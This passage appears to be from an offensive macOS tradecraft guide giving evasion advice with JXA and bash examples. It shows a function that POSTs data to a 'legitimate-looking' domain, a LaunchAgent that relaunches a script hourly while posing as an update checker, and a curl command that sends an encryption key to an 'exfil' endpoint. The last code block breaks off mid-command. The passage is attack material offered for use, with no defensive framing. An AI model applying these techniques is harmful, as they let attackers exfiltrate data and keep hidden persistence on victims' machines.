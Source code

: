 ### Network Communication

- Use common protocols and ports.
- Implement traffic obfuscation.
- Leverage existing system services for communication.

Example:
```javascript
function sendData(data) {
    const url = $.NSURL.URLWithString('https://legitimate-looking-site.com');
    const request = $.NSMutableURLRequest.requestWithURL(url);
    request.HTTPMethod = 'POST';
    request.HTTPBody = $.NSString.alloc.initWithString(data).dataUsingEncoding($.NSUTF8StringEncoding);
    $.NSURLConnection.sendSynchronousRequestReturningResponseError(request, null, null);
}
```

Scenario: When exfiltrating data, use HTTPS POST requests to a legitimate-looking domain instead of creating custom network sockets or using uncommon protocols.

### Persistence

- Use legitimate persistence mechanisms.
- Mimic behaviors of known, trusted applications.
- Implement time-based or event-based triggers.

Example:
```javascript
function createLaunchAgent(label, program) {
    const plist = {
        Label: label,
        ProgramArguments: ['/usr/bin/env', 'osascript', '-l', 'JavaScript', program],
        RunAtLoad: true,
        StartInterval: 3600
    };
    const plistPath = `${$.NSHomeDirectory().js}/Library/LaunchAgents/${label}.plist`;
    $.NSPropertyListSerialization.dataWithPropertyListFormatOptionsError(plist, $.NSPropertyListXMLFormat_v1_0, 0, null).writeToFileAtomically(plistPath, true);
}
```

Scenario: For persistence, create a Launch Agent that runs your script every hour, mimicking the behavior of legitimate update checkers.

### Data Exfiltration

- Use approved channels
- Implement data chunking and slow exfiltration
- Disguise data as normal file types or network traffic
- Encrypt sensitive data before transmission
- Separate key transmission from encrypted data

Example:
```bash
# Initialize encryption with a secure key
if setup_encryption "gpg"; then
    # Encrypt the data before sending
    encrypted_data=$(encrypt_output "$data" "gpg" "$ENCRYPT_KEY")
    
    # First send the encryption key separately
    curl -X POST \
        -H "X-Payload-Type: encryption-key" \
        -H "X-Encryption-Method: gpg" \
        -d "{\"key\":\"$ENCRYPT_KEY\"}" \
        https://example.com/exfil
        
```